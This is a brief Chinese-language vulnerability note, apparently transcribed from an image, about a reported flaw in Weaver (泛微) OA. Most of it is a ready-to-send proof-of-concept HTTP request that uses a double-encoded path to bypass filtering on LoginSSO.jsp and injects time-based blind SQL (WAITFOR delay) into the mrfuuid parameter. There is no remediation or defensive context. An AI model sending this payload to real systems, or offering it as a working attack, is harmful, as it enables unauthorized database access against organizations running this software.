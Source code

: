 微步通报为验真漏洞，路径为：

/weaver/weaver.email.FileDownloadLocation/login/LoginSSOxjsp/x.FileDownl

oadLocation 路径

大概率是如下poc：

GET /weaver/FileDownloadLocation/login/LoginSSO.%256a%2573%2570?ddcode=7ea7ef3c41d67297&mrfuuid=1%27;if+db_name(1)=%27master%27+WAITFOR+delay+%270:0:5%27--+&mailid=0&a=.swf HTTP/1.1

Host:

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0

Accept-Encoding: gzip, deflate

Connection: close